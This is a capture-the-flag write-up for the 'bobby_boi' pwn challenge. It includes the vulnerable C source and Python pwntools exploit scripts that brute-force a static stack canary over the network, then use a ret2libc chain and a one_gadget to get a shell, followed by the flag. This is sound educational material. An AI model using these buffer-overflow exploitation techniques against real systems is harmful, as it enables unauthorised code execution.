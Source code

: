 
## bobby_boi (493pt)
### Description

> My boi bobby claims to be the new MC, do you have the bars to  defeat him in a rap battle? Bobby will need the length of your bars  beforehand tho. 
>
> nc 35.238.225.156 1002 
>
> Author: Viper_S


### Attachment

[bobby_boi](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/boot2root/pwn/bobby_boi/bobby_boi)

### Analysis

`og_bars` is used as the **static canary** in this challenge, 

```c
char og_bars[BAR_SIZE];

void read_og_bars(){
    FILE *f = fopen("og_bars.txt", "r");
    if(f == NULL){
        printf("The OG bars are missing, either run the binary on the server or contact admin.\n");
        exit(0);
    }
    fread(og_bars, sizeof(char), BAR_SIZE, f);
    fclose(f);
}
```

and `Stack Smashing Detected` will be triggered while `og_bars` modified. 

```c
if(memcmp(bars, og_bars, BAR_SIZE)){
    printf("*** Stack Smashing Detected ***: The og bars were tampered with.\n");
    exit(-1);
}
```

> NOTE: `Stack Smashing Detected` will **NOT** be triggered if we overwrite `og_bar` to the right value. 

Here are two bof in this challenge :

```c
void rap_battle(){
    char bars[BAR_SIZE];
    char buf[MAXLEN];
    char bar_len[MAXLEN];
    int count, x=0;

    memcpy(bars, og_bars, BAR_SIZE);
    puts("Can you defeat bobby in a rap battle?\n");
    printf("What's the size of your bars?\n");
    while(x<MAXLEN){
        read(0, bar_len+x, 1);
        if (bar_len[x] == '\n') break;
        x++;
    }
    sscanf(bar_len, "%d", &count);

    puts("Spit your bars here: ");

    read(0, buf, count);
    gets(buf);

    if(memcmp(bars, og_bars, BAR_SIZE)){
        printf("*** Stack Smashing Detected ***: The og bars were tampered with.\n");
        exit(-1);
    }
    fflush(stdout);
}
```

### Solution

We can use `read(0, buf, count)` to **brute force** the static canary.

```python
#!/usr/bin/python
#coding=utf-8
#__author__:TaQini

from pwn import *
from sys import argv

local_file  = './bobby_boi'
local_libc  = '/lib/x86_64-linux-gnu/libc.so.6'
remote_libc = local_libc # '../libc.so.6'

elf = ELF(local_file)

# context.log_level = 'debug'
context.arch = elf.arch

def bf(og_bar,c):
    se      = lambda data               :p.send(data) 
    sa      = lambda delim,data         :p.sendafter(delim, data)
    sl      = lambda data               :p.sendline(data)
    sla     = lambda delim,data         :p.sendlineafter(delim, data)
    sea     = lambda delim,data         :p.sendafter(delim, data)
    rc      = lambda numb=4096          :p.recv(numb)
    ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
    uu32    = lambda data               :u32(data.ljust(4, '\0'))
    uu64    = lambda data               :u64(data.ljust(8, '\0'))
    info_addr = lambda tag, addr        :p.info(tag + ': {:#x}'.format(addr))

    # p = process(local_file)
    p = remote('35.238.225.156',1002)

    payload = 'A'*36+og_bar+c
    sla('What\'s the size of your bars?\n',str(len(payload)))
    sea('Spit your bars here: \n',payload)
    sl('')
    try:
        data = rc()
        print data
        p.close()
        return -1
    except Exception as e:
        print 'good'
        p.close()
        return c

og_bar = ''
if(len(argv)>1):
    og_bar = argv[1]
table = ' !"#$%&\'()*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\\]^_`abcdefghijklmnopqrstuvwxyz{|}~\n'
while len(og_bar)<=8:
    for c in table:
        res = bf(og_bar,c)
        print 'trying',og_bar+c
        if res != -1:
            og_bar += c
            break
            # pause()
print 'og_bar:', og_bar
```

![](http://image.taqini.space/img/20201206195620.png)

after we know the `canary`, we can easily solve it by ret2libc.

```python
main = 0x000000000040134B

# leak libc and back to main
payload = 'A'*36+'-V1p3R_$'
sla('What\'s the size of your bars?\n',str(len(payload)))
sea('Spit your bars here: \n',payload)
debug()
payload += cyclic(12)
payload += p64(prdi) + p64(elf.got['fopen'])
payload += p64(elf.sym['puts'])
payload += p64(main)
sl(payload)

fopen = uu64(rc(6))
libcbase = fopen - libc.sym['fopen']

og = [283174,283258,983908,987655]

# one gadget
payload = 'A'*36+'-V1p3R_$'
sla('What\'s the size of your bars?\n',str(len(payload)))
sea('Spit your bars here: \n',payload)
payload += cyclic(12)
payload += p64(libcbase+og[0])
sl(payload)
```

> flag: b00t2root{y3Ah_Ye4h_b0bbY_b0y_H3_B3_f33l1n_H1m5elf_SG9taWNpZGU=}

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/boot2root/pwn/bobby_boi) 


